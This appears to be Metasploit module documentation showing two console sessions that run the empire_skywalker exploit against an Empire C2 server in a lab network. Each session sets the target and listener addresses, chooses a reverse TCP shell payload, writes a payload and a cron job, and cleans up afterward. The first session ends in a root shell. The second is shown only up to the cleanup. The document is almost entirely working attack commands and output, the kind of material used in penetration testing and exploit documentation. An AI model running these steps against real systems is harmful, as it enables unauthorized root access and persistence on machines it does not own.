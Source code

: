 ### BC-SECURITY/Empire C2 Framework (v5.9.2) installed with Docker on Kali Linux 6.6.15 (target 1, port 8080)
```
msf > use exploit/linux/http/empire_skywalker
[*] Using configured payload linux/x86/shell/reverse_tcp
msf exploit(linux/http/empire_skywalker) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf exploit(linux/http/empire_skywalker) > set rport 8080
rport => 8080
msf exploit(linux/http/empire_skywalker) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(linux/http/empire_skywalker) > set target 1
target => 1
msf exploit(linux/http/empire_skywalker) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf exploit(linux/http/empire_skywalker) > check
[*] 192.168.56.6:8080 - The target appears to be vulnerable.
msf exploit(linux/http/empire_skywalker) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[+] Successfully negotiated an artificial Empire agent
[*] Writing payload to /tmp/jJzYkeKV
[*] Writing cron job to /etc/cron.d/nFnFIbim
[*] Waiting for cron job to run, can take up to 60 seconds
[*] Sending stage (36 bytes) to 192.168.56.6
[+] Deleted /etc/cron.d/nFnFIbim
[+] Deleted /tmp/jJzYkeKV
[!] Tried to delete /var/lib/powershell-empire/empire/server/downloads/WV9TEJTE/agent.log, unknown result
[*] Command shell session 3 opened (192.168.56.1:4444 -> 192.168.56.6:42068) at 2024-07-20 14:40:09 +0900

whoami
root
```

### BC-SECURITY/Empire C2 Framework (v5.9.2) installed with Docker on Kali Linux 6.6.15 (target 2, port 8080)
```
msf > use exploit/linux/http/empire_skywalker
[*] Using configured payload linux/x86/shell/reverse_tcp
msf exploit(linux/http/empire_skywalker) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf exploit(linux/http/empire_skywalker) > set rport 8080
rport => 8080
msf exploit(linux/http/empire_skywalker) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(linux/http/empire_skywalker) > set target 2
target => 2
msf exploit(linux/http/empire_skywalker) > set payload linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf exploit(linux/http/empire_skywalker) > check
[*] 192.168.56.6:8080 - The target appears to be vulnerable.
msf exploit(linux/http/empire_skywalker) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[+] Successfully negotiated an artificial Empire agent
[*] Writing payload to /tmp/qxlOSIYF
[*] Writing cron job to /etc/cron.d/ugrYIJzf
[*] Waiting for cron job to run, can take up to 60 seconds
[*] Sending stage (38 bytes) to 192.168.56.6
[+] Deleted /etc/cron.d/ugrYIJzf
[+] Deleted /tmp/qxlOSIYF
```